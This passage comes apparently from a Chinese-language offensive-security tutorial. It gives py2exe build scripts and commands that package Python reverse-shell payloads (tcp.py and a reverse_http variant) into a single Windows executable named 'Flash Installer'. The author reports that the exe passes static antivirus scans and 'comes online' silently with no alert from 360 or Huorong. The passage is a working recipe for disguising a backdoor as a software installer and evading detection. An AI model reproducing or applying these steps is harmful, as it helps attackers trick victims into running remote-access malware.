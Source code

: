 保存为tcp.py

同目录下建立make_tcp.py，内容如下

```
from distutils.core import setup
import py2exe
setup(
    name='yzddmr6',
    description='Flash Installer',
    version='1.0',
    console=['tcp.py'],
    options={'py2exe': {'bundle_files': 1, 'packages': 'ctypes',
                        'includes': 'base64,sys,socket,struct,time,code,platform,getpass,shutil', }},
    zipfile=None,
)
```

大家可以去搜一下py2exe的完整命令手册

options里要注意两点：

- bundle_files为1是指所有的链接库打包成一个exe单文件，否则你就得把整个文件夹发给对方运行才能上线
- include里面的库只能添不能减，否则会有如下报错。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900418273-6160f807-740f-4155-97db-1249ada40538.png)

py2exe编译

```
python make_tcp.py py2exe
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900418434-5511896d-80cc-454e-96b0-60d58f942e81.png)

然后在同目录`dist`文件夹下就会出来编译好的exe

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900418553-3fe7e7e2-64fc-4c17-ad28-f5994e8b5a74.png)

静态查杀没有问题

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900418639-4becfb36-de70-4e77-bcee-3590c1a8a382.png)

点击后静默上线，360跟火绒无提示

#### reverse_http

注意模版中includes中增加了urllib2库

```
from distutils.core import setup
import py2exe
setup(
    name='yzddmr6',
    description='Flash Installer',
    version='1.0',
    console=['http.py'],
    options={'py2exe': {'bundle_files': 1, 'packages': 'ctypes',
                        'includes': 'urllib2,base64,sys,socket,struct,time,code,platform,getpass,shutil', }},
    zipfile=None,
)
```
